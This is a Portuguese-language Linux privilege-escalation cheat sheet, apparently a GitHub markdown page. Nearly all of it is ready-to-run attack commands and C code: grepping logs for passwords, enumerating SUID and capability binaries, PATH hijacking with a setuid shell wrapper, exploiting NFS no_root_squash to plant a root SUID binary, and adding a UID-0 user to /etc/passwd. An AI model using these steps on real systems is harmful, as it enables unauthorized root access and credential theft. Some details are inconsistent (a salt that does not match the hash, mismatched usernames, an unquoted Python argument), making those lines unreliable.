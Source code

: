 ### Identificação de permissões sudo
`sudo -l`
### Buscando senhas no log:
`grep -Ri password /var/log 2>/dev/null`
### Identificação de permissões SUID
`find / -perm -u=s -type f 2>/dev/null`
### Identificação de permissões Capabilities
`getcap -r / 2>/dev/null`
### Identificação de scripts programados (Cron Jobs)
`cat /etc/crontab`
Caso um script não possua o caminho absoluto definido no `/etc/crontab`, o cron irá buscar o arquivo nos diretórios definidos no PATH.
Lembre-se de dar a permissão de execução ao script.
### Manipulando a variável PATH
Identificando diretórios com permissão de gravação:
`find / -writable 2>/dev/null`
`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`
Adicionando a pasta `/tmp` ao PATH:
`export PATH=/tmp:$PATH`
Criando um binário com o script que irá executar um comando:
```
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("cmd");
}
```
Para compilar o código acima utilize o compilador GCC:
`gcc binario.c -o binario -w`
Altere as permissões do binário para SUID:
`chmod u+s binario`
Agora criamos o comando que será executado:
`echo "/bin/bash" > cmd`
Alteramos a permissão do comando criado:
`chmod 777 cmd`
E executamos o binário com o script que irá chamar o comando.
Lembre-se de que os arquivos devem estar em um local com permissão de escrita, além do diretório estar declarado na variável PATH.
### Explorando serviços de compartilhamento de arquivos (NFS)
Na máquina alvo, verifique se existe diretórios compartilhados com a permissão no_root_squash:
`cat /etc/exports`
Na máquina atacante, verifique quais diretórios estão permitidos realizar a montagem:
`showmount -e IP`
Crie uma pasta na máquina atacante e faça a montagem do diretório remoto no diretório criado:
`sudo mount -o rw IP:/shared/remote/folder /local/folder`
Na pasta local, crie um script que irá executar a shell:
```
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("/bin/bash");
  return 0;
}
```
Compile o script utilizando o GCC:
`sudo gcc root.c -o root -static`
Altere as permissões do binário criado para SUID:
`sudo chmod +s root`
Execute na máquina remota para escalar privilégio.

### Adicionando um usuário com privilégio root

Criar o hash da senha que será utilizada:
`openssl passwd -1 -salt HACK senha123`

Adicione as informações do usuário no arquivo `/etc/passwd`:
`hacker3:\$1\$lord\$jZwvvuLH/snkFA6S/AJA6.:0:0:root:/root:/bin/bash`

Agora é só trocar para o usuário criado:
`su hacker`

`python -c 'import crypt; print(crypt.crypt(senha123, "$6$lord"))'`
`

`\$1\$lord\$jZwvvuLH\/snkFA6S\/AJA6\.`